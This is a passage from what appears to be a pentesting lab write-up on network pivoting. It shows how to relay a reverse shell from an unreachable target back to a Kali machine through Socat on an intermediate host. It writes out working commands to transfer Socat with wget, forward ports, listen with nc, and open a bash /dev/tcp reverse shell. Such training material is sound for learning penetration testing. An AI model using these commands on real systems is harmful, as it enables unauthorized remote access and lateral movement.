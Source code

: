 </div>

and we can see that's third network interface 30.30.30.0/24 (target 3 -> 30.30.30.5).

### Socat

Good, but the matter is that Kali attacker machine isn't reachable by target2:

<div align="left">

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

</div>

Bad situation in a PT, where we need to spawn a reverse shell. To solve this problem a tool called [`Socat`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat) comes in handy.

{% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat" %}

We are going to use Socat to help us reach Attacker machine from our Target/Victim machine and spawn a shell.&#x20;

<pre class="language-bash"><code class="lang-bash">#Kali
curl https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -o socat #download Socat
chmod +x socat #give execution permission (do it on both machines)
<strong>#transfer Socat on victim machine / target 1
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>#download on target 1 using wget or similar methods
</strong><strong>#Target 1
</strong><strong>wget 10.10.10.4/socat
</strong><strong>chmod +x socat
</strong></code></pre>

```bash
#Target 1
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.4:111 #tcp-l: listening port, send data to tcp:attacker:port
```

Now, we've a reverse connection, and if we listening on Kali machine using on port 111 and we spawn a [reverse shell](https://www.revshells.com/) on target 2 (using Target 2's IP of 2nd net interface in common between target 1 and 2), we obtain a target 2 session on Kali machine.

{% embed url="https://www.revshells.com/" %}

```bash
#Kali
nc -nlvp 111 #listening on port 111
#Target 2
sh -i >& /dev/tcp/20.20.20.7/1111 0>&1 #Bash -i reverse shell with IP target 1 and socat listening port 1111
```
